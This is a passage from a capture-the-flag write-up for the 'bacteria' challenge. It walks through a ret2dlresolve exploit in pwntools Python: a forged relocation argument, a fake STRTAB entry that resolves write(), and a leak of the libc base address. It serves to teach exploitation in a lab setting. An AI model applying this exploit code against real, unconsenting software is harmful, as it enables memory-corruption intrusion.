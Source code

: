 Everything is set! Now we will conduct the ret2dlresolve by faking reloc_arg. To do that, we will need 3 things placed on stack: dlresolver address, reloc_arg and return address. The dlresolver address we can get by analize the read@plt:

![analize_read_plt.png](/static/images/tsjctf-2022/bacteria/analize_read_plt.png)

So the dlresolver address is `0x401000`, the reloc_arg is `632` above and the return address of course is `mov_rsi_rbp_read` because we will need to input something more.

After it writes STRTAB structure and jump to there, it then write to ret2dlresolve stack address and jump to ret2dlresolve address. With everything we have, the payload will look like this:

```python
dlresolver = 0x401000
payload = p64(0)                         # Fake rbp
payload += p64(dlresolver)               # Resolve then execute resolved function
payload += p64(reloc_arg)
payload += p64(mov_rsi_rbp_read)
p.send(payload)
```

Wait! The hint was we can use `write(0, buf, numofbyte)` to print things out (rdi is always 0) so in the STRTAB structure, we will change from `system` to `write` to print out the resolved libc address. This is the updated of STRTAB structure:

```python
STRTAB = 0x4002c0

STRTAB_addr = rw_section + 0x80
st_name = STRTAB_addr - STRTAB

STRTAB_struct = b"write\x00\x00\x00"
STRTAB_struct += p64(0)
```

Running script to here and debug with gdb, we know we ret2dlresolve successfully:

![get_write_libc_function.png](/static/images/tsjctf-2022/bacteria/get_write_libc_function.png)

This is the function write in libc. Let's check if the rsi contain the address point to r_offset or not:

![rsi_contain_write_libc_address.png](/static/images/tsjctf-2022/bacteria/rsi_contain_write_libc_address.png)

And here it is! Running through the write function and we get the address of write leaked:

![write_address_leaked.png](/static/images/tsjctf-2022/bacteria/write_address_leaked.png)

Getting that leak and parsing it with the following code, we can get the libc base address:

```python
# Get leaked address
write_addr = u64(p.recv(8))
log.success('Leak address: ' + hex(write_addr))
libc_base = write_addr - 0x1111d0
log.success('Libc base: ' + hex(libc_base))
```
